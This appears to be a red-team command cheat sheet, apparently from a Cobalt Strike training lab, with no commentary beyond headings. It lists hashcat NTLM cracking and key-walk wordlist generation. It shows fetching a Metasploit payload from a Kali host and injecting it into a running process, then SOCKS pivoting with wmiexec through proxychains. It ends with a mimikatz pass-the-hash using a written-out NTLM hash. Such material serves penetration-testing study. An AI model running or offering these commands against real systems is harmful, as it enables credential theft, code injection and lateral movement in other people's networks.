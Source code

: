 ###### <font style="color:#00b3ff">Hashcat with a mask</font> 
```
hashcat.exe -a 3 -m 1000 C:\Temp\ntlm.txt ?u?l?l?l?l?l?l?l?d
```

###### <font style="color:#00b3ff">Hashcat combines two lists with rules</font> 
```
hashcat.exe -a 1 -m 1000 C:\Temp\ntlm.txt D:\Tools\list1.txt D:\Tools\list2.txt -j $- -k $!
```

###### <font style="color:#00b3ff">Generate key-walk passwords from adjacent keys</font> 
```
D:\Tools\kwprocessor>kwp64.exe basechars\custom.base keymaps\uk.keymap routes\2-to-10-max-3-direction-changes.route -o D:\Tools\keywalk.txt
```

###### <font style="color:#00b3ff">Spawn to a foreign Listener (here metasploit)</font> 
```
beacon> spawn metasploit
```

###### <font style="color:#00b3ff">Copy msf payload from kali to windows and execute it</font> 
```
C:\Payloads>pscp root@kali:/tmp/msf.bin .
beacon> execute C:\Windows\System32\notepad.exe
beacon> ps
beacon> shinject 1492 x64 C:\Payloads\msf.bin
```

###### <font style="color:#00b3ff">Start SOCKS proxy on port 1080</font> 
```
beacon> socks 1080
```

###### <font style="color:#00b3ff">Connect to a host through the proxy</font> 
```
root@kali:~# proxychains python3 /usr/local/bin/wmiexec.py DEV/bfarmer@10.10.17.25
```

###### <font style="color:#00b3ff">Run tools and authenticate to it in different ways</font> 
```
C:\>runas /netonly /user:DEV\nlamb "C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc"

mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:nlamb /domain:dev.cyberbotic.io /ntlm:2e8a408a8aec852ef2e458b938b8c071 /run:"C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc"
```
